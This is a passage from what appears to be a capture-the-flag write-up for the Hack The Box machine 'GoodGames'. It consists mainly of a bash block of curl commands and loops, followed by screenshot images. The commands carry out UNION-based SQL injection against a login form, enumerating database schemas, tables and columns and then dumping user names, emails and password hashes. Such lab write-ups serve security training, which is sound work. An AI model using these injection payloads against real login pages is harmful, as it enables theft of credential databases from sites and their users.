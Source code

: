 ```bash
curl -s -X POST http://goodgames.htb/login -H "Content-Type: application/x-www-form-urlencoded" -d "email=oldboy%40oldb.htb'+union+select+1,2,3,table_name+from+information_schema.tables+limit+0,1--+-&password=oldboy123" | grep Welcome | sed 's/^ *//' | awk 'NF{print $NF}' | tr -d '</h2>'
curl -s -X POST http://goodgames.htb/login -H "Content-Type: application/x-www-form-urlencoded" -d "email=oldboy%40oldb.htb'+union+select+1,2,3,table_name+from+information_schema.tables+limit+1,1--+-&password=oldboy123" | grep Welcome | sed 's/^ *//' | awk 'NF{print $NF}' | tr -d '</h2>'

for i in $(seq 1 100); do curl -s -X POST http://goodgames.htb/login -H "Content-Type: application/x-www-form-urlencoded" -d "email=oldboy%40oldb.htb'+union+select+1,2,3,table_name+from+information_schema.tables+limit+$i,1--+-&password=oldboy123" | grep Welcome | sed 's/^ *//' | awk 'NF{print $NF}' | tr -d '</h2>'; done

for i in $(seq 0 100); do echo -e "[+] Number $i: $(curl -s -X POST http://goodgames.htb/login -H "Content-Type: application/x-www-form-urlencoded" -d "email=oldboy%40oldb.htb' union select+1,2,3,schema_name from information_schema.schemata limit $i,1-- -&password=oldboy123" | grep Welcome | sed 's/^ *//' | awk 'NF{print $NF}' | tr -d '</h2>')"; done

for i in $(seq 1 100); do echo -e "[+] Number $i: $(curl -s -X POST http://goodgames.htb/login -H "Content-Type: application/x-www-form-urlencoded" -d "email=oldboy%40oldb.htb' union select+1,2,3,table_name from information_schema.tables where table_schema=\"main\" limit $i,1-- -&password=oldboy123" | grep Welcome | sed 's/^ *//' | awk 'NF{print $NF}' | tr -d '</h2>')"; done

for i in $(seq 1 100); do echo -e "[+] Number $i: $(curl -s -X POST http://goodgames.htb/login -H "Content-Type: application/x-www-form-urlencoded" -d "email=oldboy%40oldb.htb' union select+1,2,3,column_name from information_schema.columns where table_schema=\"main\" and table_name=\"user\" limit $i,1-- -&password=oldboy123" | grep Welcome | sed 's/^ *//' | awk 'NF{print $NF}' | tr -d '</h2>')"; done

curl -s -X POST http://goodgames.htb/login -H "Content-Type: application/x-www-form-urlencoded" -d "email=oldboy%40oldb.htb' union select+1,2,3,group_concat(name,0x3a,email,0x3a,password) from user-- -&password=oldboy123" | grep Welcome | sed 's/^ *//' | awk 'NF{print $NF}' | tr -d '</h2>'
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_30.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_31.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_32.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
